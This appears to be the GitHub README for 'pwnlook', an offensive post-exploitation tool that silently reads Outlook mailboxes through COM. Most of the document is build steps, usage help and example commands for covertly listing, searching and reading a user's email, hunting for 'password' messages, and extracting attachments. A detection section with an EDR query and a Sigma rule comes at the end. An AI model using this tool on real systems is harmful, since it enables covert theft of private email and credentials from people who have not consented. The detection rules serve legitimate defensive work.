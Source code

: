 # pwnlook
Pwnlook is an offensive postexploitation tool that will give you complete control over the Outlook desktop application and therefore to the emails configured in it.
What it does:
- List mailboxes
- List folders
- Gather emails information
- Read email
- Search by recipient or subject
- Download attachments

It's possible to do almost everything that Outlook can do: send emails, create forward rules, list contacts... But all this is out of the scope of this project. **At the end of the this `README` you will find some detection techniques**.

Pwnlook is written in .NET 4.8.1

## Compile
To compile it you need first to register both DLLs. This is only for compilation, there is no need to register the DLL where you execute it:
```
regsvr32.exe .\Redemption.dll
regsvr32.exe .\Redemption64.dll
```

You can unregister them later:
```
regsvr32.exe -u .\Redemption.dll
regsvr32.exe -u .\Redemption64.dll
```
Open the `.sln` with Visual Studio and compile it. 

Then use [ILMerge](https://github.com/dotnet/ILMerge) to create a single binary:
```
.\ILMerge.exe /target:pwnlook481.exe /out:pwnlook.exe pwnlook481.exe Newtonsoft.Json.dll
```

## How it works
`pwnlook` communicates with Outlook via COM. By using the [Redemption library](https://www.dimastr.com/redemption/home.htm) it can gather all kind of information without triggering any alert to the user, even if you read an unread email the email will keep as unread for the user.

The tool comes with some limitations that are related with the, most likely, possibility of dealing with very big OST files. Thats why, for example, I didn't implement an option to "list all emails".

The `Redemption64.dll` must be in the same path as the `pwnlook.exe`. There is no need to register the DLL ([Registry free COM](https://www.dimastr.com/redemption/security.htm#redemptionloader)) so you can run it on behalf of any user, even if it isn't Local Admin.

```powershell
.\pwnlook.exe --help


                    .__                 __
________  _  ______ |  |   ____   ____ |  | __
\____ \ \/ \/ /    \|  |  /  _ \ /  _ \|  |/ /
|  |_> >     /   |  \  |_(  <_> |  <_> )    <
|   __/ \/\_/|___|  /____/\____/ \____/|__|_ \
|__|              \/                        \/


Usage: pwnlook.exe [options]

List mailboxes:
  -listmailboxes

List folders:
  -mailbox <mailbox> -listfolders

List emails from date:
  -mailbox <mailbox> -folder <Folder\Path> -date <yyyy-MM-dd>

List latest X emails from folder:
  -mailbox <mailbox> -folder <Folder\Path> -latest <X>

Read email:
  -mailbox <mailbox> -folder <Folder\Path> -id <ID>

Download attachment (base64):
  -mailbox <mailbox> -folder <Folder\Path> -id <ID> -attachment <X>

Search by sender or subject:
  -mailbox <mailbox> -folder <Folder\Path> -search <sender|subject> -value <string>

Result format in JSON
  -json

Examples:
.\pwnlook.exe -mailbox my@mail.com -folder "Inbox" -latest 20 -json        Lists latest 20 emails from Inbox
```

### List Mailboxes
First you must list the existing mailboxes `.\pwnlook.exe -listmailboxes`:
```
Available Mailboxes:
    - test_1@domaintest.tld
    - test_2@domaintest.tld
```

### List existing folders
`.\pwnlook.exe -mailbox "test_1@domaintest.tld" -listfolders`

```
IPM_SUBTREE
    Trash
    Inbox
        test1
    Outbox
    Sent
    Calendar (This computer only)
    Contacts (This computer only)
    Journal (This computer only)
    Notes (This computer only)
    Tasks (This computer only)
    Drafts
    RSS Feeds
    Conversation Action Settings (This computer only)
    Quick Step Settings (This computer only)
    Sync Issues (This computer only)
        Local Failures (This computer only)
    Junk
    Archive
    test2
```

### Examples
**List latest 3 emails from test1 folder**
```
.\pwnlook.exe -mailbox "test_1@domaintest.tld" -folder "Inbox\test1" -latest 3 -json
```

Output example in JSON:
```
  {
    "Sender": "aaaa@eeee.org",
    "Recipients": "test_1@domaintest.tld",
    "Subject": "Email1",
    "Body": null,
    "Attachments": [],
    "Date": "2024-08-21",
    "Folder": "test1",
    "ID": "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD500000000000F0000D9539C2261A6BB45B9DAB62C7081B3C101000D0000000000"
  }
```

**List emails from date**
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "Inbox" -date "2024-08-12" -json
```
**Search email**
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "Inbox" -search "sender" -value "boss" -json
```

```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "Inbox" -search "subjet" -value "password" -json
```

**Read email**

Use the `ID` to read the email:
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "test2" -read "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD50000000000110000FCDA005631565E4A933C1CF9DF307DD50000000016000000" -json
```

```
{
  "Sender": "aaaa@eeee.org",
  "Recipients": "test_1@domaintest.tld",
  "Subject": "Re: testeando",
  "Body": "Ok a todo\r\n\r\n\r\nEl 12 de agosto de 2024 11:30:25 CEST, test_1@domaintest.tld escribió:\r\n\r\n\temail de prueba\r\n\r\n",
  "Attachments": [
    "Senior Security Analyst - Job Description.pdf"
  ],
  "Date": "2024-08-12",
  "Folder": "test2",
  "ID": "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD50000000000110000FCDA005631565E4A933C1CF9DF307DD50000000016000000"
}
```

**Download attachment**
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "test2" -read "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD50000000000110000FCDA005631565E4A933C1CF9DF307DD50000000016000000" -attachment 0 > base64.txt
```

The attachment is encoded in `base64`, you can dump it as a file with Powershell like:
```
[System.IO.File]::WriteAllBytes("outputFile.pdf", [System.Convert]::FromBase64String([System.IO.File]::ReadAllText("base64.txt")))
```

## Detect

In your EDR you can search for unsigned processes accessing `OST` files.

In Cortex XDR would be like:

```
config case_sensitive = false
| preset = xdr_file 
| filter event_sub_type = ENUM.FILE_OPEN 
| filter action_file_path ~= "C:\\Users\\.*\\AppData\\Local\\Microsoft\\Outlook\\.*\.ost$" and actor_process_signature_status = UNSIGNED
| fields _time, agent_hostname , actor_effective_username , action_file_path, actor_process_image_name , actor_process_command_line, actor_process_image_sha256  , actor_process_signature_status , actor_process_signature_vendor 
```

Sigma rule:
```yml
title: Access to OST files from uncommon process
id: 0ea56b07-0bc6-4c8b-8b8a-e32de0557a5e
status: experimental
description: |
    Detects malicious software reading emails directly from OST files.
references:
    - https://github.com/amjcyb/pwnlook
author: amjcyb
date: 2024-09-10
tags:
    - attack.collection
    - attack.t1114.001
logsource:
    category: file_access
    product: windows
    definition: 'Requirements: Microsoft-Windows-Kernel-File ETW provider'
detection:
    selection:
        FileName|endswith: '.ost'
        FileName|contains:
            - 'AppData\Local\Microsoft\Outlook'
    filter_system_folders:
        Image|startswith:
            - 'C:\Program Files\'
            - 'C:\Program Files (x86)\'
            - 'C:\Windows\system32\'
            - 'C:\Windows\SysWOW64\'
    condition: selection and not 1 of filter_*
falsepositives:
    - Other email software
level: high
```

